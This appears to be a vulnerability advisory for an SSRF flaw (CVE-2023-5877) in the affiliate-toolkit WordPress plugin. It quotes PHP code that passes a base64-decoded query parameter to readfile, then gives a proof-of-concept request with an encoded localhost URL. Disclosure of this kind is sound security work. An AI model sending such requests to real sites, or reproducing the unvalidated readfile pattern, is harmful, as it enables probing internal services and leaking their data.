 ### affiliate-toolkit – WordPress Affiliate Plugin <= 3.2 SSRF

affiliate-toolkit <= 3.2 is vulnerable to SSRF

Source: `$_GET`

Sink: `readfile`

Code:

tools/atkp_imagereceiver.php

```
$url = ( isset( $_GET['image'] ) ) ? $_GET['image'] : '';
$image_url = base64_decode( $url );
...
readfile( $image_url );
```

POC:

1. Listen on 8080 on server side
2. Send a get request to wp-content/plugins/affiliate-toolkit-starter/tools/atkp_imagereceiver.php?image=aHR0cDovL2xvY2FsaG9zdDo4MDgw&hash=dd4349f3bf4a552af419e12c282ba25a
3. Receive a request on server side. The full response is also disclosed

Status: CVE-2023-5877
